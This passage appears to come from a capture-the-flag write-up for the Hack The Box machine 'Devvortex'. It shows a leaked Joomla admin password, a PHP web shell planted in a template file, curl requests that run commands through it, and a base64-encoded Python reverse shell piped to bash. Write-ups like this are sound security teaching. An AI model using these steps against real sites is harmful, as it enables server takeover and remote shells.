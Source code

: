 ```bash
[...snip]
    {
      "type": "application",
      "id": "224",
      "attributes": {
        "user": "lewis",
        "id": 224
      }
    },
    {
      "type": "application",
      "id": "224",
      "attributes": {
        "password": "P4ntherg0t1n5r3c0n##",
        "id": 224
      }
    },
[...snip]
  ],
  "meta": {
    "total-pages": 4
  }
}
```

<p>User "lewis" seems to have the password "P4ntherg0t1n5r3c0n##". We can use it to successfully login to Joomla on "/administrator". We tried to SSH into the machine as well with these credentials but it did not work.</p>

<p>After logging into Joomla, Lewis seems to be part of the super users - which means that we have administrator privileges. We can go to "System > Templates > Site Templates > Cassiopedia Details and Files > error.php". We can then add <custom-code>system($_GET['cmd']);</custom-code> to second line of the code.</p>

<p>To finally achieve remote code execution (RCE), we can run:</p>

```bash
curl -s "http://dev.devvortex.htb/templates/cassiopeia/error.php?cmd=whoami"
www-data
curl -s "http://dev.devvortex.htb/templates/cassiopeia/error.php?cmd=id"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
curl -s "http://dev.devvortex.htb/templates/cassiopeia/error.php?cmd=pwd"
/var/www/dev.devvortex.htb/templates/cassiopeia
```

<p>We can check if Python3 is available on the machine:</p>

```bash
curl -s "http://dev.devvortex.htb/templates/cassiopeia/error.php?cmd=which+python3"
/usr/bin/python3
```

<p>We can then generate a reverse shell payload with GoPariah:</p>

```bash
gopariah python3_b64 10.10.16.8 9001
echo -n cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEwLjEwLjE2LjgiLDkwMDEpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7IG9zLmR1cDIocy5maWxlbm8oKSwxKTtvcy5kdXAyKHMuZmlsZW5vKCksMik7aW1wb3J0IHB0eTsgcHR5LnNwYXduKCIvYmluL2Jhc2giKSc= | base64 -d | bash
```
